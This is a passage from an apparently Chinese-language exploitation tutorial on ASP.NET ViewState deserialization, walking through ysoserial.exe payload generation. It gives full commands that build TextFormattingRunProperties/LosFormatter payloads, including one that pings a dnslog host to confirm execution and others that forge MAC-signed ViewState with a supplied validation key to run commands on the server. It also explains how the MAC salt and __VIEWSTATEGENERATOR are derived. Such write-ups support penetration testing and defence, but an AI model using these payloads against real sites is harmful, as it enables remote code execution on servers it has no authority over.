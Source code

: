 ```html
<title>运行时错误</title>
```

假定我们现在已经关闭了MAC验证，直接上 payload：

```powershell
.\ysoserial.exe
-o base64
-g TextFormattingRunProperties # 换成TypeConfuseDelegate打不出dnslog回显
-f LosFormatter
-c "ping 123456.dnslog.cn"
```

![](/img/2024-08-12-viewstate-exp/1.png)

填入`__VIEWSTATE`字段，回显成功：

![](/img/2024-08-12-viewstate-exp/2.png)

### 2.2 ASP.NET <=4.0，开启MAC验证

ASP.NET 常见的签名算法为 HMACSha256（也可能是SHA1），计算出的签名会附加在 ViewState 数据最后。MacKeyModifier 是签名算法的 Salt，由 ClientId 和 ViewStateUserKey 两部分拼接而成，默认情况下，ViewStateUserKey 为空（也很少会设置），ClientId 为当前页面虚拟目录路径(apppath)和类型名称(path)的 HashCode 之和，并以 Hex 形式存放于名为`__VIEWSTATEGENERATOR`的表单字段中。

.NET<=4.0 的表单中会带有`__VIEWSTATEGENERATOR`，对于不含该字段的高版本 .NET，ysoserial 需要使用`path`和`apppath`选项：

```powershell
.\ysoserial.exe
-p ViewState
-g TextFormattingRunProperties 
-c "echo 123 > e:\test.txt"
--path="/default.aspx"
--apppath="/"
--validationalg="SHA1"
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
--islegacy # 表示ASP.NET<=4.0，不需要加密密钥

.\ysoserial.exe
-p ViewState
-g TextFormattingRunProperties
-c "echo 123 > e:\test.txt"
--generator=CA0B0334 
--validationalg="SHA1"
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
--isdebug # 开启后能看到CA0B0334等同于path="/"apppath="/default.aspx"
# 使用generator选项，相当于默认ASP.NET<=4.0，因此不需要islegacy选项
```

![](/img/2024-08-12-viewstate-exp/3.png)

![](/img/2024-08-12-viewstate-exp/4.png)
